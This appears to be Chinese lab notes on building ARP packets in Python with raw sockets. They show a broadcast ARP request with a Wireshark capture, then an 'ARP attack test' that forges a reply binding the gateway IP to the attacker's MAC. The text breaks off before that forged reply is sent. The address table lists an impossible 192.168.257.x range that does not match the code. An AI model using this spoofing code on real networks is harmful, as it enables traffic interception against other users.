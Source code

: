 | 环境 |      物理机       |      虚拟机       |
| :--: | :---------------: | :---------------: |
|  IP  |   192.168.257.1   |  192.168.257.158  |
| MAC  | `00:50:56:c0:00:08` | `00:0c:29:ab:e7:82` |
| 网关 |   192.168.257.2   |   192.168.257.2   |



## ARP请求测试

```python
ip_target = "192.168.237.1"
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, ipv4)
mac_self = toHex(1, mac)
# arp请求
arp_request = ARP(b'\xff\xff\xff\xff\xff\xff',  # 广播
                  mac_self,
                  b'\x00\x01',  # 操作码：请求
                  mac_self,
                  ipv4_self,
                  b'\x00\x00\x00\x00\x00\x00',  # 未知
                  toHex(0, ip_target))  # 目标IP地址
# arp_request.packets()

# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
# 绑定到指定的网络接口
raw_socket.bind(("ens33", 0))
raw_socket.setsockopt(socket.SOL_SOCKET, socket.SO_BROADCAST, 1)
raw_socket.send(arp_request.packet)
```

wireshark抓包结果：

![p9fyfWd.png](https://s1.ax1x.com/2023/05/18/p9fyfWd.png)

成功发送了ARP请求，并得到了响应



## ARP攻击测试-伪造响应

```python
ip_target = "192.168.237.1"
mac_target = toHex(1, "00:50:56:c0:00:08")
ip_gate = toHex(0, "192.168.237.2")
# 获取本机信息
ipv4, mac = get_net_info()
print(f'本机IP: {ipv4}\n本机MAC: {mac}\n目标IP:{ip_target}')
ipv4_self = toHex(0, ipv4)
mac_self = toHex(1, mac)
# arp攻击
arp_attact = ARP(mac_target,
                 mac_self,
                 b'\x00\x02',  # 操作码：响应
                 mac_self,  # 攻击者MAC地址
                 ip_gate,  # 网关IP地址
                 mac_target,
                 toHex(0, ip_target))
# 创建原始套接字
raw_socket = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
```